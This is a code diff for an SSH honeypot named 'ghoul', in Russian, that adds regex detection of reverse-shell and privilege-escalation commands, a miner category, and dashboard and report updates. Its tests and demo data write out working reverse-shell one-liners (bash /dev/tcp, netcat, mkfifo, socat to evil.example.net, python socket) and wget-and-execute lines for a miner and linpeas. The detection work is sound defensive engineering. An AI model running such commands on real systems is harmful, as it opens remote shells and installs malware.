

detect reverse shells and GTFOBins-style privesc; miner category; updated dashboard

diff --git a/ghoul/dashboard.html b/ghoul/dashboard.html
@@ -100,6 +100,7 @@
   .fl.command .x::before { content: "$ "; color: var(--red); }
   .fl.url .x { color: var(--red-hi); } .fl.url .x::before { content: "⇣ "; }
   .fl.auth .x { color: var(--dim); }
+  .fl.revshell .x, .fl.privesc .x { color: var(--red-hi); font-weight: 700; } .fl.revshell .x::before { content: "⚠ "; } .fl.privesc .x::before { content: "↑ "; }
   @keyframes in { from { opacity: 0; transform: translateX(-6px) } to { opacity: 1; transform: none } }
   .lead { color: var(--dim); max-width: 760px; margin: -12px 0 24px; }
 
@@ -121,6 +122,7 @@
     <div class="card hot"><div class="k">вошли</div><div class="v" id="c-authed">0</div></div>
     <div class="card"><div class="k">уникальных ip</div><div class="v" id="c-ips">0</div></div>
     <div class="card"><div class="k">команд</div><div class="v" id="c-commands">0</div></div>
+    <div class="card hot"><div class="k">реверс-шеллы</div><div class="v" id="c-revshells">0</div></div>
     <div class="card hot"><div class="k">url (ioc)</div><div class="v" id="c-urls">0</div></div>
   </section>
 
@@ -278,7 +280,7 @@
         getJSON("/api/attacks"), getJSON("/api/feed"),
         ...["creds", "cmds", "urls", "ips", "users", "clients"].map((k) => getJSON("/api/top?kind=" + k)),
       ]);
-      for (const k of ["sessions", "authed", "ips", "commands", "urls"]) $("c-" + k).textContent = sum[k];
+      for (const k of ["sessions", "authed", "ips", "commands", "revshells", "urls"]) $("c-" + k).textContent = sum[k];
       $("last").textContent = sum.last ? "последняя: " + ago(sum.now - sum.last) : "ждём первых гостей";
       renderTimeline(tl);
       renderSessions(ses);

diff --git a/ghoul/dashboard.py b/ghoul/dashboard.py
@@ -21,6 +21,7 @@ def summary(store):
         "authed": one("SELECT COUNT(*) FROM sessions WHERE authed = 1"),
         "ips": one("SELECT COUNT(DISTINCT src_ip) FROM sessions"),
         "commands": one("SELECT COUNT(*) FROM events WHERE kind = 'command'"),
+        "revshells": one("SELECT COUNT(*) FROM events WHERE kind = 'revshell'"),
         "urls": one("SELECT COUNT(DISTINCT json_extract(data, '$.url')) FROM events WHERE kind = 'url'"),
         "last": db.execute("SELECT MAX(started) FROM sessions").fetchone()[0],
         "now": time.time(),
@@ -83,6 +84,7 @@ def session_events(store, session_id):
 
 
 ATTACK_RULES = [
+    ("майнер", ("xmr", "minerd", "xmrig", "stratum+tcp")),
     ("загрузчик ботнета", ("wget http", "curl -s http", "curl http", "| sh", "tftp", "ftpget")),
     ("захват аккаунта", ("chpasswd", "passwd")),
     ("кража ssh-ключей", (".ssh", "authorized_keys")),
@@ -106,7 +108,17 @@ def attacks(store):
     per_session = {}
     for sid, _, d in store.events("command"):
         per_session.setdefault(sid, []).append(d["cmd"])
-    counter = Counter(classify(cmds) for cmds in per_session.values())
+    revshell = {sid for sid, _, _ in store.events("revshell")}
+    privesc = {sid for sid, _, _ in store.events("privesc")}
+
+    def label(sid, cmds):
+        if sid in revshell:
+            return "реверс-шелл"
+        if sid in privesc:
+            return "повышение привилегий"
+        return classify(cmds)
+
+    counter = Counter(label(sid, cmds) for sid, cmds in per_session.items())
     silent = store.db.execute("SELECT COUNT(*) FROM sessions WHERE authed = 1").fetchone()[0] - len(per_session)
     if silent > 0:
         counter["вошёл и молчит"] += silent
@@ -116,7 +128,7 @@ def attacks(store):
 def feed(store, limit=12):
     rows = store.db.execute(
         "SELECT e.ts, e.kind, e.data, s.src_ip FROM events e JOIN sessions s ON s.id = e.session_id "
-        "WHERE e.kind IN ('auth', 'command', 'url') ORDER BY e.id DESC LIMIT ?",
+        "WHERE e.kind IN ('auth', 'command', 'url', 'revshell', 'privesc') ORDER BY e.id DESC LIMIT ?",
         (limit,),
     ).fetchall()
     out = []
@@ -126,6 +138,10 @@ def feed(store, limit=12):
             text = f"{d['username']}:{d['password']} -> " + ("вход" if d["ok"] else "отказ")
         elif r["kind"] == "command":
             text = d["cmd"]
+        elif r["kind"] == "revshell":
+            text = f"реверс-шелл → {d['target']} ({d['technique']})"
+        elif r["kind"] == "privesc":
+            text = f"повышение привилегий: {d['technique']}"
         else:
             text = d["url"]
         out.append({"ts": r["ts"], "ip": r["src_ip"], "kind": r["kind"], "text": text})

diff --git a/ghoul/patterns.py b/ghoul/patterns.py
@@ -1,0 +1,46 @@
+"""Распознавание реверс-шеллов и приёмов повышения привилегий (в духе GTFOBins)
+в командах, которые бот вводит в поддельную оболочку. Только разбор текста:
+ничего не исполняется и ни к чему не подключается."""
+import re
+
+HOST = r"([A-Za-z0-9.\-]+)"
+
+REVSHELL = [
+    ("bash /dev/tcp", re.compile(r"/dev/(?:tcp|udp)/" + HOST + r"/(\d{1,5})")),
+    ("netcat -e/-c", re.compile(
+        r"\b(?:nc|ncat|netcat)\b[^;|&]*?\s-\w*[ec]\b[^;|&]*?\s" + HOST + r"\s+(\d{2,5})\b")),
+    ("netcat + mkfifo", re.compile(
+        r"mkfifo\s+\S+[^;]*?\b(?:nc|ncat|netcat)\b\s+" + HOST + r"\s+(\d{2,5})")),
+    ("socat", re.compile(r"\bsocat\b.*?(?:TCP4?|OPENSSL):" + HOST + r":(\d{2,5})", re.I)),
+    ("python socket", re.compile(
+        r"(?=.*\bsocket\b).*?\.connect\(\(\s*['\"]" + HOST + r"['\"]\s*,\s*(\d{2,5})\s*\)\)")),
+    ("php fsockopen", re.compile(r"fsockopen\(\s*['\"]" + HOST + r"['\"]\s*,\s*(\d{2,5})")),
+    ("powershell tcpclient", re.compile(
+        r"TCPClient\(\s*['\"]" + HOST + r"['\"]\s*,\s*(\d{2,5})", re.I)),
+]
+
+PRIVESC = [
+    ("sudo -l", re.compile(r"\bsudo\s+-l\b")),
+    ("поиск suid", re.compile(r"\bfind\b[^;|&]*?-perm\s+(?:-?4000|-u=s|/4000)")),
+    ("find -exec shell", re.compile(r"\bfind\b[^;|&]*?-exec\s+\S*(?:sh|bash)\b")),
+    ("capabilities", re.compile(r"\bgetcap\s+-r\b")),
+    ("bash -p", re.compile(r"\bbash\s+-p\b")),
+    ("vim/less shell escape", re.compile(r"\b(?:vim?|less|more)\b[^;|&]*?(?:-c\s+['\"]?:?!|!\s*/bin/(?:ba)?sh)")),
+    ("awk/python system()", re.compile(r"(?:awk|python3?|perl)\b[^;|&]*?(?:system\(|os\.system|pty\.spawn|setuid\(0\))")),
+    ("linpeas/linenum", re.compile(r"\b(?:linpeas|linenum|les)\.sh\b", re.I)),
+    ("чтение sudoers", re.compile(r"/etc/sudoers")),
+]
+
+
+def detect(line):
+    """Вернуть список событий (kind, data) для строки команды."""
+    events = []
+    for name, rx in REVSHELL:
+        m = rx.search(line)
+        if m:
+            events.append(("revshell", {"technique": name, "target": f"{m.group(1)}:{m.group(2)}"}))
+            break
+    for name, rx in PRIVESC:
+        if rx.search(line):
+            events.append(("privesc", {"technique": name}))
+    return events

diff --git a/tests/test_ghoul.py b/tests/test_ghoul.py
@@ -160,3 +160,36 @@ def test_attack_classification():
     assert classify(["echo root:x | chpasswd"]) == "захват аккаунта"
     assert classify(["uname -a", "whoami"]) == "разведка системы"
     assert classify(["foo"]) == "прочее"
+
+
+def test_revshell_and_privesc_detection():
+    from ghoul import patterns
+
+    cases = {
+        "bash -i >& /dev/tcp/203.0.113.7/4444 0>&1": ("bash /dev/tcp", "203.0.113.7:4444"),
+        "nc -e /bin/sh 203.0.113.7 9001": ("netcat -e/-c", "203.0.113.7:9001"),
+        "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 203.0.113.7 4242 >/tmp/f": ("netcat + mkfifo", "203.0.113.7:4242"),
+        "socat TCP:evil.example.net:4444 EXEC:/bin/sh": ("socat", "evil.example.net:4444"),
+        "python3 -c 'import socket;s=socket.socket();s.connect((\"203.0.113.7\",4444))'": ("python socket", "203.0.113.7:4444"),
+    }
+    for line, (technique, target) in cases.items():
+        events = patterns.detect(line)
+        assert events and events[0][0] == "revshell", line
+        assert events[0][1] == {"technique": technique, "target": target}, line
+    assert patterns.detect("ls -la /root") == []
+    assert patterns.detect("nc -zv 203.0.113.7 22") == []  # скан портов, не реверс-шелл
+    techniques = [d["technique"] for k, d in patterns.detect("find / -perm -4000 2>/dev/null; sudo -l") if k == "privesc"]
+    assert "поиск suid" in techniques and "sudo -l" in techniques
+
+
+def test_shell_emits_revshell_event_and_classifies():
+    sh, events = make_shell()
+    sh.run_line("bash -i >& /dev/tcp/203.0.113.7/4444 0>&1")
+    assert ("revshell", {"technique": "bash /dev/tcp", "target": "203.0.113.7:4444"}) in events
+    assert "ALL" in sh.run_line("sudo -l")
+
+
+def test_miner_classification():
+    from ghoul.dashboard import classify
+
+    assert classify(["cd /tmp; wget http://203.0.113.5/.xmr; ./.xmr"]) == "майнер"

diff --git a/ghoul/shell.py b/ghoul/shell.py
@@ -3,6 +3,7 @@
 import re
 import shlex
 
+from . import patterns
 from .fakefs import FakeFS, SHADOW_DENIED
 
 URL_RE = re.compile(r"(?:https?|ftp|tftp)://[^\s'\"<>|;&]+", re.I)
@@ -63,6 +64,8 @@ class Shell:
             self.on_event("command", {"cmd": line})
             for url in URL_RE.findall(line):
                 self.on_event("url", {"url": url, "cmd": line})
+            for kind, data in patterns.detect(line):
+                self.on_event(kind, data)
         try:
             lexer = shlex.shlex(line, posix=True, punctuation_chars=";&|<>")
             lexer.whitespace_split = True
@@ -123,6 +126,8 @@ class Shell:
         if not args:
             return ""
         if args[0] == "sudo" and len(args) > 1:
+            if args[1] == "-l":
+                return "User root may run the following commands on " + self.hostname + ":\n    (ALL : ALL) ALL\n"
             args = args[1:]
         name, rest = args[0], args[1:]
         handler = getattr(self, "cmd_" + re.sub(r"\W", "_", name.split("/")[-1]), None)
@@ -311,6 +316,14 @@ class Shell:
     cmd_killall = cmd_chmod
 
     def cmd_false(self, args, depth):
+        return ""
+
+    def cmd_find(self, args, depth):
+        if "-perm" in args:
+            return "/usr/bin/passwd\n/usr/bin/sudo\n/usr/bin/su\n/usr/bin/mount\n"
+        return ""
+
+    def cmd_getcap(self, args, depth):
         return ""
 
     def cmd_passwd(self, args, depth):

diff --git a/ghoul/demo.py b/ghoul/demo.py
@@ -3,6 +3,7 @@ import json
 import random
 import time
 
+from . import patterns
 from .store import Store
 
 CREDS = [
@@ -19,6 +20,10 @@ SCRIPTS = [
     ["cd /tmp; wget http://{ip}/.xmr; chmod +x .xmr; ./.xmr", "crontab -l", "ps"],
     ["echo root:Pw0rned | chpasswd", "ls -la ~/.ssh", "history"],
     ["uname -a"],
+    ["bash -i >& /dev/tcp/{ip}/4444 0>&1"],
+    ["id", "nc -e /bin/sh {ip} 9001"],
+    ["sudo -l", "find / -perm -4000 2>/dev/null", "cd /tmp; wget http://{ip}/linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh"],
+    ["whoami", "python3 -c 'import socket,os;s=socket.socket();s.connect((\"{ip}\",4444));os.dup2(s.fileno(),0)'"],
     ["ifconfig", "df -h", "uptime", "w"],
 ]
 NETS = ["203.0.113", "198.51.100", "192.0.2"]
@@ -65,6 +70,8 @@ def seed(db_path, sessions=420, hours=48, seed_value=13):
         for line in rng.choice(SCRIPTS):
             line = line.format(ip=payload_ip)
             ev("command", {"cmd": line})
+            for kind, data in patterns.detect(line):
+                ev(kind, data)
             if "http://" in line:
                 url = line.split("http://")[1].split()[0].split(";")[0].split("|")[0].strip()
                 ev("url", {"url": "http://" + url, "cmd": line})

diff --git a/ghoul/report.py b/ghoul/report.py
@@ -30,6 +30,8 @@ def build(store, color=True):
     top_ips = db.execute(
         "SELECT src_ip, COUNT(*) c FROM sessions GROUP BY src_ip ORDER BY c DESC LIMIT 10"
     ).fetchall()
+    revshells = Counter(f"{d['target']}  ({d['technique']})" for _, _, d in store.events("revshell"))
+    privesc = Counter(d["technique"] for _, _, d in store.events("privesc"))
     clients = Counter(
         row["client_version"] for row in db.execute("SELECT client_version FROM sessions") if row["client_version"]
     )
@@ -43,6 +45,8 @@ def build(store, color=True):
     lines += _section("IP-адреса", [(r["src_ip"], r["c"]) for r in top_ips])
     lines += _section("команды", cmds.most_common())
     lines += _section("URL из команд (IOC)", urls.most_common())
+    lines += _section("реверс-шеллы (цель)", revshells.most_common())
+    lines += _section("повышение привилегий", privesc.most_common())
     lines += _section("SSH-клиенты", clients.most_common())
     text = "\n".join(lines) + "\n"
     if not color:

diff --git a/README.md b/README.md
@@ -14,7 +14,9 @@
 - перебираемые пары логин:пароль
 - команды, которые боты запускают внутри
 - адреса, откуда они пытаются скачать вредоносы
-- тип атаки простыми словами: загрузчик ботнета, разведка, захват аккаунта
+- тип атаки простыми словами: загрузчик ботнета, майнер, разведка, захват аккаунта
+- **попытки реверс-шелла** (bash `/dev/tcp`, netcat, socat, python, php, powershell) с адресом, куда бот хотел подключиться
+- **приёмы повышения привилегий** в духе GTFOBins: `sudo -l`, поиск SUID, `find -exec`, linpeas
 
 <div align="center">
 <img src="assets/dashboard.png" alt="дашборд ghoul" width="100%"/>
@@ -27,6 +29,7 @@
 | :-- | :-- |
 | SSH-сервер | на asyncssh, выглядит как OpenSSH на Debian 12, первые пароли отклоняет, потом пускает |
 | поддельная оболочка | `ls`, `cat`, `wget`, `curl`, цепочки команд и редиректы. Только возвращает правдоподобный текст |
+| детектор | `patterns.py`: разбор текста команд на реверс-шеллы и privesc, без исполнения |
 | хранилище | SQLite: сессии и события |
 | дашборд | веб-страница без внешних зависимостей, живая лента, график, разбор каждой сессии |
 
